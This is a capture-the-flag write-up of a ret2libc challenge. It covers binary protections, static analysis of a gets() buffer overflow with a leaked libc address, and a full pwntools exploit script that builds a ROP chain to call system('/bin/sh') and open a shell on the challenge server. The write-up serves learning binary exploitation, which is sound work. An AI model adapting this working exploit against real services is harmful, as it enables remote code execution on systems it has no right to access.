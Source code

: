 ![img_1](https://github.com/user-attachments/assets/499ba486-0676-43cc-b694-dfff14924939)
Solved by : Relster
# Technique : *Ret2libc*


## 1. Patch binary & Binary protection checking.
We're given 3 binaries from the challenge they are *chall*, *ld-2.27.so*, and *libc-2.27.so*. Now let's do a patching on the *chall* binary.
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```

Checking binary protection.
```bash
$ pwn checksec chall_patched 
[*] '/home/relster/Desktop/ctf/ehax/pwn/test/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```


## 2. Analyze the binary statically & dynamically
Ghidra:\
![image](https://github.com/user-attachments/assets/5a8eb7b1-7f7c-417b-a5a1-ecceabab6762)
Not much is happening here, the only main thing we need to pay attention is the *printf("%p",wctrans);* which is leaking a libc function to stdout and *gets((char \*)local_a8);* which lets us input more than the buffer could hold (overflow). From here we could tell that our exploit would implement ret2libc (return-to-libc) technique to achieve our goal which is popping a shell on remote machine.

PIE disabled is very helpful here because we can just grab our rop gadgets from the binary itself, below is the list of gadgets we'd use:\
```pop rdi; ret;``` <--- Popping the address of the string '/bin/sh\x00' to the RDI register.\
```ret;         ``` <--- Used for stack alignment purposes (since this is a 64bit binary).\
these 2 above would be enough to help us setup the exploit.

Noticed that PIE is disabled but here ASLR is enabled by default from our OS. Since ASLR randomizing base address of functions, then we'd have to use the leaked address at runtime to calculate the base address of *libc* in this case. If we got the base address of *libc* then address of function like *system()* would be easily obtain at runtime and we'd have to just do basic arithmetic of addresses here. The leaked address that we mention is *wctrans* as we see above in the *printf("%p",wctrans)*. Now we'd need the offset of *wctrans* to the *libc*'s base address, to obtain these offsets we can use *pwntools* we can also use *pwntools* to find the rop gadget that we need so we don't have to manually use *ropper*/*ROPgadget* to extract gadgets 1 by 1. One more thing to remember is the string '/bin/sh\x00' which we will need to pass it to *system()* where we can pop a shell. For obtaining the address of string '/bin/sh\x00' we can use method and function called *search()* and *next()*, more detail will be shown on the exploit. We will see the details below in the script.


## 3. Writing the exploit
We got 2 things to do here:
1. Find size from buffer to saved RBP.
2. Extract the leaked address from the binary and store it into a variable.

Let's find the offset first, this time we'll use gdb because it's straight forward (IMO).\
![image](https://github.com/user-attachments/assets/a55190e3-2701-4809-b848-d1dd2091ee9e)
Since there's no canary so we don't have to worry about it. Let's put our focus to the buffer size and saved RBP, we can see that 0xa0 in decimal is 160, don't forget the 8 bytes of RBP too. So our total junk payload would be 168 bytes, this means our RIP will start at 169th byte up to 176th byte.

For extracting the *wctrans* leaked address we'd use python's slicing technique, more detail can be seen on the exploit.

Below is the final exploit for this challenge:
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall_patched'
HOST = 'chall.ehax.tech'    # nc chall.ehax.tech 4269
PORT = 4269

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ======================================= #
'''
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
'''

offset = b'A' * 168 # RIP at 169th

### 1st Step == Preparing everything (gadgets, offset, etc) ###

# gadgets & symbols offset
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi'])[0]
wctrans_offset = libc.symbols['wctrans']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print(f"ret : {hex(ret)}")
print(f"rdi : {hex(pop_rdi)}")
print(f"wctrans : {hex(wctrans_offset)}")
print(f"system : {hex(system_offset)}")
print(f"binsh : {hex(binsh_offset)}")

### 2nd Step == Calculating base address of libc and calculating other functions' address ###

# leaked wctrans, libc base, system()
p.recvline()
out = p.recvuntil(b'0x7')
leaked_wctrans = int((b'0x7' + p.recv()[:11]).decode(), 16)
libc_base = leaked_wctrans - wctrans_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked_wctrans : {hex(leaked_wctrans)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

### 3rd Step == Build payload and send it off to remote target ###

payload = flat(
    offset,
    ret,
    pop_rdi,
    binsh,
    system
)
p.sendline(payload)

p.interactive()
p.close()

# NOTE:
# ret2libc
```


## 4. Run the exploit
Local:\
![Screenshot 2025-02-17 024958](https://github.com/user-attachments/assets/39d3e76a-6b0f-48f4-8314-0aa1331bcea1)

Remote:\
![Screenshot 2025-02-17 025227](https://github.com/user-attachments/assets/ecbb101b-a013-42ae-b68f-8001b9f38eaa)


## Keyword
ret2libc\
ASLR and PIE\
x86_64 calling convention\
Binary dependency (specific libc for specific offset)
